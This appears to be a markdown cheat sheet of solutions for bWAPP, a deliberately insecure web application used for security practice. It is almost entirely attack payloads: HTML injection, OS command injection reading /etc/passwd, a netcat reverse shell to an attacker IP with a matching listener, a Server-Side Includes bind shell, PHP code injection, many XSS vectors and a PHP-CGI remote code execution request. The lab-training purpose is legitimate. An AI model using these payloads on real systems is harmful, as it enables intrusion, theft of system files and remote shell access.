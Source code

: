 <b>bWAPP is an insecure open-source web application designed to improve the skills of students, developers or people interested in IT security in order to discover and prevent web vulnerabilities</b>
<font color="red">as my expectation bWAPP is the best unsecure application to test owasp top 10 for Student !</font>
# A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's machine:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's machine:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's machine:
```
nc -nv 192.168.200.150 775




# A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(Hi )</script>
```
### XSS - Reflected (POST)

xss_post.php
```
<script>alert(2017)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(2017)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(2017)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(2017)</script></html>
```

### XSS - Reflected (Back Button)
Modify Referer header field
```
Referer: ';alert(2017);'
```

### XSS - Reflected (Custom Header)
Add header field
```
bWAPP: <script>alert(2017)</script>
```

### XSS - Reflected (Eval)
```
date=alert(2017)
```

### XSS - Reflected (HREF)
```
Referer: <script>alert(2017)</script>
```

### XSS - Reflected (User-Agent)
```
User-Agent: <script>alert(2017)</script>
```
### PHP CGI Remote Code Execution
```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.200.150
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
```



